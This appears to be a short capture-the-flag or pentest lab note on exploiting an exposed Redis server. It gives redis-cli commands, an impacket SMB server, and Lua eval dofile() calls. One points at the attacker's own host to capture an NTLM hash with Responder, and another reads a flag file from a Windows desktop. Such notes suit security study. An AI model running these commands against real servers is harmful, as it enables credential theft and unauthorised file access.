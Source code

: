 Redis NoSQL, Port 6379
```
redis-cli -h 10.10.246.197
```
```
CONFIG GET *
```
- to retrieve all parameters from redis-cli
```
smbserver.py smb share/ -smb2support 
```
```
eval "dofile('//10.21.90.250/share')" 0
```
![[Pasted image 20250404160719.png]]
- use kali ip
- get NTLM hash from responder

LFI
```
eval "dofile('C:\\\\Users\\\\enterprise-security\\\\Desktop\\\\user.txt')" 0
```
![[Pasted image 20250404155241.png]]
- shows flag (LFI) 
